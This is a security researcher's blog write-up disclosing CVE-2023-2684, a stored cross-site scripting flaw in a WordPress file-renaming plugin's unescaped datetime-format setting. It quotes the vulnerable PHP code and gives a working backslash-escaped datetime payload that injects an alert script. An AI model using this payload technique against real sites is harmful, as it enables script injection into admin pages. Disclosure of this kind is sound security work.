 ```yaml
---
title: "CVE-2023-2684: File Renaming on Upload &lt;= 2.5.1 - Authenticated (Admin+) Stored Cross-Site Scripting"
author: h40huynh
date: 2023-06-01 11:33:00 +0700
categories: [Blog, CVE]
tags: [CVE]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/posts/CVE-2023-2684/xss.jpg
  alt: Will change in future
---
```


## Introdution

During my search for a plugin with the functionality to modify file names after uploading, I came across a particular plugin that seemed promising. As a security enthusiast, I decided to delve deeper into its code and settings to ensure it was robust and free from vulnerabilities.

## About my CVE

The CVE-2023-2684 vulnerability is a Stored Cross-Site Scripting (XSS) issue that exists within the plugin's setting panel. This plugin does not sanitise and escape datetime format settings, which could allow high privilege users such as admin to perform Stored Cross-Site Scripting attacks even when the unfiltered_html capability is disallowed.

**Affected wordpress plugin**: https://wpscan.com/plugin/file-renaming-on-upload

**CVE reference**: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-renaming-on-upload/file-renaming-on-upload-251-authenticated-admin-stored-cross-site-scripting

## Vulnerability Analysis

In the plugin's settings panel, there is a datetime setting rule for renaming filenames, which is accompanied by an example showing the output time.

![Datetime setting](/assets/img/posts/CVE-2023-2684/setting.png)

Without diving into knowledge of programming WordPress plugins and library usage, we can still exploit this vulnerability by carefully examining the following code snippet:

```php
<?php
// class-datetime-option.php
public function add_fields( $fields, $section ) {
    $datetime = \DateTime::createFromFormat( 'U.u', number_format( microtime( true ), 6, '.', '' ) );
    $format   = $datetime->format( $this->get_option( $this->option_datetime_format, 'Y-m-d_H-i-s_u' ) );
    $new_options = array(
        array(
            'name'           => $this->option_id,
            'label'          => __( 'Datetime', 'file-renaming-on-upload' ),
            'desc'           => __( 'Enables Datetime rule', 'file-renaming-on-upload' ) . ' - ' . '<strong>{' . $this->option_id . '}</strong>',
            'desc_secondary' => __( "Gets the current date and time.", 'file-renaming-on-upload' ),
            'type'           => 'checkbox',
            'default'        => 'no',
        ),
        array(
            'name'        => $this->option_datetime_format,
            'desc'        => __( 'Datetime format ', 'file-renaming-on-upload' ) . sprintf( __( 'You can see more formats <a target="_blank" href="%s">here</a>', 'file-renaming-on-upload' ), 'http://php.net/manual/function.date.php' ) . '<br />' . sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format ),
            'type'        => 'text',
            'default'     => 'Y-m-d_H-i-s_u',
            'placeholder' => 'Y-m-d_H-i-s_u',
        ),
        array(
            'name' => 'datetime_separator',
            'type' => 'separator',
        ),
    );

    return parent::add_fields( array_merge( $fields, $new_options ), $section );
}
```

Let's examine the HTML tags used in the previous string of options: `sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format )`. We should consider that if the result of the datetime includes HTML tags, it could potentially introduce an XSS vulnerability.

To exploit this vulnerability, all we need to do is find a way to manipulate the datetime function to generate the desired HTML syntax. According to the instructions, we can use the formatting provided in this PHP function: https://www.php.net/manual/en/function.date.php.

```php
<?php
// Assuming today is March 10th, 2001, 5:16:18 pm, and that we are in the
// Mountain Standard Time (MST) Time Zone

$today = date("F j, Y, g:i a");                 // March 10, 2001, 5:16 pm
$today = date("m.d.y");                         // 03.10.01
$today = date("j, n, Y");                       // 10, 3, 2001
$today = date("Ymd");                           // 20010310
$today = date('h-i-s, j-m-y, it is w Day');     // 05-16-18, 10-03-01, 1631 1618 6 Satpm01
$today = date('\i\t \i\s \t\h\e jS \d\a\y.');   // it is the 10th day.
$today = date("D M j G:i:s T Y");               // Sat Mar 10 17:16:18 MST 2001
$today = date('H:m:s \m \i\s\ \m\o\n\t\h');     // 17:03:18 m is month
$today = date("H:i:s");                         // 17:16:18
$today = date("Y-m-d H:i:s");                   // 2001-03-10 17:16:18 (the MySQL DATETIME format)
?>
```

To keep the characters intact, we need to append a backslash (\\) before each one. Hence, the payload for executing an XSS attack is as follows:

```
Y-m-d_H-i-s_u\<\s\c\r\i\p\t\>\a\l\e\r\t\(\d\o\c\u\m\e\n\t\.\d\o\m\a\i\n\)\<\/\s\c\r\i\p\t\>
```

![Payload execution](/assets/img/posts/CVE-2023-2684/xss.png)

That concludes the entire process of how I discovered this CVE. Thank you for taking the time to read through it.

Timeline

```
Publicly Published
2023-05-25 (about 22 days ago)
```
